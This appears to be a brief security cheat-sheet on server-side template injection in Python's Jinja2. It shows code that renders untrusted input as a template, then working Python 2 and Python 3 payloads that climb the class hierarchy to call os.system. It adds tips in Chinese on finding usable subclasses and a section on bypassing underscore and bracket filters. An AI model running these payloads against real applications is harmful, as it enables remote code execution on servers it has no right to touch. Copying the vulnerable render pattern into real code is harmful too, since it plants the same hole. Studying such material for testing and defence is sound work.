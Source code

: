 # Python Jinja

## Installation

```sh
$ pip install jinja2
```

## Vulnerable Code

```python
from jinja2 import Environment
Jinja2 = Environment()
Jinja2.from_string('<code-here>').render()
```

## Exploit

```python
py2 payload: 
 -> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['system']('ls')
py3 payload: 
 -> ''.__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['__import__']('os').system('ls')

ps. 因為不能直接找到 RCE module, 建議先用 

''.__class__.__mro__[1].__subclasses__() 
or
''.__class__.__mro__[2].__subclasses__()

看看有沒可用的 class
```

## Bypass

```
1. ''['__class__'] 取代 ''.__class__
2. filter  {{ ''|attr(['_'*2,'class','_'*2]|join) }}
如果要用[]要分段寫 {% set a = ''|attr(['_'*2,'class','_'*2]|join) %} {% a[1] %}
```



